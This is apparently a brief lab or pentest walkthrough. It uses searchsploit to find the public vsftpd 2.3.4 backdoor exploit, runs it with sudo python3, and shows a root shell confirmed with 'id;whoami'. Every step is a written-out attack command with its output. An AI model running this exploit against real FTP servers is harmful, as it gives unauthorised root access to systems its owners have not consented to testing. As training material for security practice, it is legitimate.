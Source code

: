 `searchsploit vsftpd`
```
vsftpd 2.3.4 - Backdoor Command Execution                                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | unix/remote/17491.rb
```

`find / -name "49757.py" 2> /dev/null`
```
/usr/share/exploitdb/exploits/unix/remote/49757.py
```
see with `pass` what is this script doing

`stat /usr/share/exploitdb/exploits/unix/remote/49757.py`
```
File: /usr/share/exploitdb/exploits/unix/remote/49757.py
  Size: 1101            Blocks: 8          IO Block: 4096   regular file
Device: 801h/2049d      Inode: 3298785     Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2022-07-12 12:58:59.935883323 -0400
Modify: 2021-11-18 00:02:10.000000000 -0500
Change: 2021-12-20 01:19:03.863582624 -0500
 Birth: 2021-12-20 01:18:58.487582804 -0500
```
it is execatuable

`sudo python3 /usr/share/exploitdb/exploits/unix/remote/49757.py`
```
Success, shell opened
Send `exit` to quit shell
```

`id;whoami`
```
uid=0(root) gid=0(root)
root
```
quite easly done